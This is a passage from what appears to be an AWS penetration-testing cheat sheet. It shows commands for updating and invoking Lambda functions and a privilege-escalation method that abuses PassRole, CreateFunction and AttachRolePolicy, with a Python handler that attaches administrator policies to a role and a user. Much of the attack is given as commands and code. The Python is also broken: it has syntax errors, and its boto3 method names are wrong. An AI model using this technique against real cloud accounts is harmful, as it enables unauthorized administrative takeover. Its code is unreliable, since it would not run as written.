 ```
aws lambda update-function-code --function-name function --zip-file fileb://my-function.zip
```

### Invoke the Function

```
curl https://uj3948ie.execute-api.us-east-2.amazonaws.com/default/EXAMPLE
```

Where

1. API-ID -> uj3948ie
2. Region -> us-east-2
3. Resource (Endpoint) -> EXAMPLE
4. Method -> Get
5. Stage (Version) -> default
6. API-Key -> None

*All these details are gathered during the enumeration.*

## Privilege Escalation
* If we have a user with PassRole and CreateFunction roles and also AttachRolePolicy role in a Lambda Function, its possible to create a function with a code that changes the lambda role to admin then the user to Administrator.

### Create a lambda function and attach a role to it

```
aws lambda create-function --function-name my-function --runtime python3.7 --zip-file fileb://my-function.zip --handler my-function.handler --role ARN --region region
```

* Inside the function's code, we will add the administrator permission to the role and to the user

#### Example code to add the permissions

```python
import boto3
import json

def handler(event,context)
	iam = boto3.client("iam")
	iam.attach.role.policy(RoleName="name",PolicyArn="arn",)
	iam.attach.user.policy(UserName="name",PolicyArn="arn",)
	return {
		'statusCode':200
		'body':json.dumps("Pwned")
	}
```

### Invoke a lambda function

```
aws lambda invoke --function-name name response.json --region region 
```
